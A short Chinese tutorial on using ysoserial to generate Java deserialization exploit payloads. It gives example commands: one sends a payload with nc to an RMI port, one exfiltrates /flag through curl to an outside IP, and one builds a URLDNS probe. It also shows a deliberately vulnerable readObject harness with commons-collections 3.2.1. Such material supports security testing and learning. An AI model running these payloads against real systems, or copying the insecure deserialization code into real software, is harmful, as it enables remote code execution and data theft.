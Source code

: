 Ysoserial 
<https://github.com/frohoff/ysoserial>
一款用于生成利用不安全的Java对象反序列化的有效负载的概念验证工具。
图形化优化版可以直接导出：<https://github.com/0ofo/Deswing> 
## **使用**
使用生成命令：
```
java -jar ysoserial.jar
java -jar ysoserial.jar [payload] '[command]'
```
案例：
```
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
nc 10.10.10.10 1099 < groovypayload.bin

java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe

java -jar ysoserial.jar ROME "curl http://1.2.90.186:1234 -d @/flag" |base64
```

^
## **复现**
对生成后的.bin文件进行反序列化，存在对应的依赖，则可以触发。
```
 java -jar ysoserial.jar CommonsCollections7 calc.exe >cc7.bin
 java -jar ysoserial.jar URLDNS http://dnslog.cn >url.bin
```
```
public static Object DeSerializable(String path) throws IOException, ClassNotFoundException {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(path));
    return ois.readObject();
}

public static void main(String[] args) throws IOException, ClassNotFoundException {

    new ArrayStack();
    DeSerializable("src/cc7.bin");
}
```
```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
</dependencies>
```

